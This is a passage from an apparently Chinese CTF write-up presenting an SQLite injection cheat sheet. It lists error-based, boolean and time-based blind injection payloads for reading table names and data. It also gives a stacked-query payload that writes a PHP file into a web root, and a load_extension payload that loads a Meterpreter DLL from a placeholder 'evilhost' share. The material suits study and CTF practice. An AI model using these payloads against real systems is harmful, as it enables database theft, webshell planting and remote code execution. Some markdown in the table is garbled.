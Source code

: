 

# <a class="reference-link" name="0x04%20Cheat%20Sheet"></a>0x04 Cheat Sheet

下面结合题解直接来总结一张 Cheat Sheet，其中部分来源于外网部分来源于自我总结。<br>
因为表格 md 语法的问题，双竖线代替 || ：

|name|syntax|description
|------
|注释 1|—|
|注释 2|/**/|
|注释 3|[]|
|IF 语句|CASE WHEN|
|连接符|双竖线|
|截取子串|substr(x,y,z)|
|获取长度|length(stuff)|
|获取版本信息|select sqlite_version();|
|获取表名|SELECT tbl_name FROM sqlite_master;|
|获取列名|SELECT sql FROM sqlite_master;|
|基于错误的盲注 1|abs(case(xxx)when(xxx)then(0)else(0x8000000000000000)end)|判断字符，abs 可由 sum 、ntile 等函数替换，case 计算的表达式可用如 replace(length(replace(x,y,z)),y,z) 这样利用长度变化判断
|基于错误的盲注 2|abs(case(length(xxx)&amp;`{`1&lt;&lt;n`}`)when(0)then(0)else(0x8000000000000000)end)|获取长度，需要脚本配合，n：1~16
|基于错误的盲注 3|abs(ifnull(nullif(length((SELECT(flag)from(flag))),$LENGTH$),0x8000000000000000))|获取长度，通过遍历
|生成单引号 1|select cast(X’27’ as text);|
|生成单引号 2|select substr(quote(hex(0)),1,1);|quote：返回SQL文字的文本，该文本是其参数的值，适合包含在SQL语句中。字符串由**单引号**包围。
|生成双引号|select cast(X’22’ as text);|
|基于时间的盲注|1’ AND [RANDNUM]=LIKE(‘ABCDEFG’, UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))|供判断注入，RANDOMBLOB()函数生成指定长度的随机字符串。当这个长度足够大的时候就会让服务器产生明显的延迟。这样就可以判断语句的执行成功与否，这同时也是通用的注入 payload 。实际上，AND 后面的表达式计算出来是 0 。
|布尔盲注 1|and (SELECT count(tbl**name) FROM sqlite_master WHERE type=’table’ and tbl_name NOT like ‘sqlite**%’ ) &lt; number_of_table|获得表的个数
|布尔盲注 2|and (SELECT length(tbl**name) FROM sqlite_master WHERE type=’table’ and tbl_name not like ‘sqlite**%’ limit 1 offset 0)=table_name_length_number|列举表名
|布尔盲注 3|and (SELECT hex(substr(tbl**name,1,1)) FROM sqlite_master WHERE type=’table’ and tbl_name NOT like ‘sqlite**%’ limit 1 offset 0) &gt; hex(‘some_char’)|获得数据
|文件写入|1’;ATTACH DATABASE ‘/var/www/lol.php’ AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES (‘’;—|需要堆叠查询对应配置开启
|代码执行|UNION SELECT 1,load_extension(‘\evilhost\evilshare\meterpreter.dll’,’DllMain’);—|具体使用可以看上面介绍给出的链接，默认情况下这个函数是禁用的。



## 0x05 参考
